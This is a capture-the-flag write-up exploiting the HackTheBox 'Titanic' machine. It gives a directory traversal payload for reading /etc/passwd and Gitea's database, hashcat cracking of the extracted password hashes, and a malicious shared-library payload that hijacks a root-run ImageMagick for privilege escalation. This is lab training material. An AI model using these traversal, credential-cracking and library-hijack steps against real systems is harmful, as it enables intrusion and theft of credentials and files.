 ## **Introduction :**
*machine* : https://app.hackthebox.com/machines/Titanic.
Difficulty: Easy.
this writeup details the process to exploit Titanic machine on HackTheBox , By enumerating services on ports 80 and 20 , we discover **Directory Traversal** vulnerability , and Gitea on a subdomain , that enable us retrieve credential for developer user , after logging in via a SSH , we found a script that uses vulnerable version of `ImageMagick` (v7.1.1) that we can exploit to escalate privilege to root.

## **Enumeration :**
1. Nmap scan : 
```Bash
└─# nmap -sS -sC -sV 10.10.11.55
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-05 12:37 EDT
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.71s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Titanic - Book Your Ship Trip
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/3.0.3 Python/3.10.12
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.38 seconds
```
There are tow ports open  : 
- 22 (SSH)
- 80 (HTTP)

## **Initial foothold :**
#### Web on port 80 :

![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/1.png)

checking http://titanic.htb/ , we found a simple website. One interesting part from website is `/book`  which returns a JSON file after filling out a form , by Burp Suite we discover redirection to `/download?ticket=a_id.JSON` .
### Directory Traversal :
- By testing **Directory Traversal** by replacing `a_id.json` with `../../../etc/passwd` , it allows us to read the content of `/etc/passwd` from the server. 
- form  `/etc/passwd`, we found a user developer , and also by reading file `/etc/hosts` (or using any tool like `Gobuster` , `ffuf`) we found a subdomain `dev.titanic.htb`

```bash 
└─# gobuster dns -d titanic.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     titanic.htb
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: dev.titanic.htb

```
![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/2.png)
### Subdomain enumeration :

![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/3.png)

- checking `http://dev.titanic.htb/` , we found Gitea page .
- in Gitea , there are tow repositories `docker-config` and `flash-app` .
- Reading their content, we didn't find anything interesting in the `flask-app` repository , but `docker-config` reveals Gitea is running in Docker container and store the data in `/home/developer/gitea/data` .

![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/4.png)
- now we can try to exploit this to read data files. 

### Extract Gitea database : 

- by reading documentations of Gitea and some research  , we know that data is stored in the SQLite file `gitea.db` and the file is stored in `/data/gitea` inside the container. 
- Gitea stores its SQLite database in `/data/gitea/gitea.db` , and contain mount  `/home/developer/gitea/data:/data` , That means anything in the container's `/data` path will be mirrored to your host's `/home/developer/gitea/data`.
- so the finally path that we use to read data by exploit Directory Traversal vulnerability is `/home/developer/gitea/data/gitea/gitea.db`
- by visiting http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db we can save the file locally 
- open `gitea.db` in SQLite 
```bash
└─# sqlite3 gitea.db          
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
access                     oauth2_grant             
access_token               org_user                 
...
.....
```

- we found a table user containing hashed password , salt , email and also algorithm that used for hashing
### Cracking the passwords :

- we can use `hashcat` tool to crack the password.
- first we need to convert them to base64 by using this [script](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/titanic_machine/hashcat_forma_PBKDF2.py)
- create a file named `hashes.txt` with hash and salt with the format `sha256:50000:salt:hash`
- the run `hashcat` to find plaintext password for developer : `hashcat.exe -m 10900 -a 0 hashes.txt rockyou.txt`
### developer shell : 

- now , we can login in via SSH.
```bash 
└─# ssh developer@10.10.11.55
```

- we can find user flag by reading file `/home/developer/user.txt`
## **Privilege escalation :** 
- `sudo -l` shows that the developer user does not have `sudo` privilege, also  there are no SUID binaries that we can exploit.
- in `/opt/scripts` ,we find a script `identify_images.sh ` which runs a vulnerable version of `ImageMagick`  
- `ImageMagick 7.1.1` is vulnerable to arbitrary code execution (you can find a exploitation in google)
- Also this script is owned by root and runs in Cronjob - I know this by looking at the creation date of metadata.log file.
#### exploitation :

- Create a shared library in the current working directory ( `/opt/app/static/assets/images` )

```bash 
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF  
#include <stdio.h>  
#include <stdlib.h>  
__attribute__((constructor)) void init(){  
system("cat /root/root.txt > /tmp/root.txt");  
exit(0);  
}  
EOF
```

- once `ImageMagick` process this malicious file , it executes a malicious code and copies `root.txt` to `/tmp/root.txt.`

>but first thing you can do is run the command `ls /root > /tmp/root.txt` to see what files are in this directory. Also we can include a reverse shell. 




